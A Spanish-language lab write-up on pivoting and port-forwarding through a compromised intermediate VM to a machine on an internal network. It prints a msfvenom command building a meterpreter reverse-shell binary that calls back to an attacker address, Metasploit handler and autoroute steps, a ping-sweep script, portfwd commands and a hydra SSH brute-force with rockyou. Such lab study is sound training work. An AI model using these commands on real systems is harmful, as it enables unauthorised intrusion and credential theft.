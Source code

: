[[Lab Pivoting, Tunneling And Port-Forwarding - Synfonos 1-2-3]]
#pivoting 
Usaremos la máquina friendly 1 intermedia y la máquina basic de vulnyx máquina final:
![[Pasted image 20240615202221.png]]

Procedemos con la intrusión en la máquina friendly 1 hasta ser usuario root:
![[Pasted image 20240615202227.png]]

Ahora vamos a recibir esta conexión como meterpreter en la máquina atacante, por lo que creamos un nuevo payload con msfvenom:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```
Y nos lo compartimos con la máquina víctima:
![[Pasted image 20240615202239.png]]

![[Pasted image 20240615202243.png]]
Y usamos el multi/handler de metasploit cargando el payload de meterpreter:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```

![[Pasted image 20240615202254.png]]

![[Pasted image 20240615202302.png]]

Y recibimos el meterpreter:
![[Pasted image 20240615202316.png]]

Vemos las interfaces de red con el comando ipconfig, donde identificamos la segunda interfaz de red:
![[Pasted image 20240615202322.png]]

Enrutamos el tráfico con el módulo de autoroute:
```bash
use /multi/manage/autoroute
```

![[Pasted image 20240615202330.png]]
Y ahora tenemos que encontrar equipos levantados dentro de esta red interna de 10.10.10.0/24, por lo que usamos el siguiente script:
```bash
#!/bin/bash

for i in {1..255}; do
    timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
    if [ $? -eq 0 ]; then
        echo "El host 10.10.10.$i está activo"
    fi
done
```
Lo compartimos:
![[Pasted image 20240615202340.png]]

Lo recibimos:
![[Pasted image 20240615202346.png]]

Y encontramos el host objetivo:
![[Pasted image 20240615202353.png]]

Ahora tenemos que hacerle un escaneo de puertos a esta dirección IP, por lo que usamos el módulo de portscan/tcp:
![[Pasted image 20240615202402.png]]

Y con los siguientes comandos realizamos el port forwarding, de tal forma que nos vamos a traer tanto el puerto 22 como el puerto 631:
```bash
portfwd add -l 222 -p 22 -r 10.10.10.8
portfwd add -l 631 -p 631 -r 10.10.10.8
```

![[Pasted image 20240615202410.png]]

Y aquí vemos el contenido de lo que corre por el puerto 631:
![[Pasted image 20240615202416.png]]

Detectamos el usuario:
![[Pasted image 20240615202422.png]]

Por lo que atacamos al puerto ssh que también nos hemos traído en el puerto 222 de mi máquina local:
```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 222
```
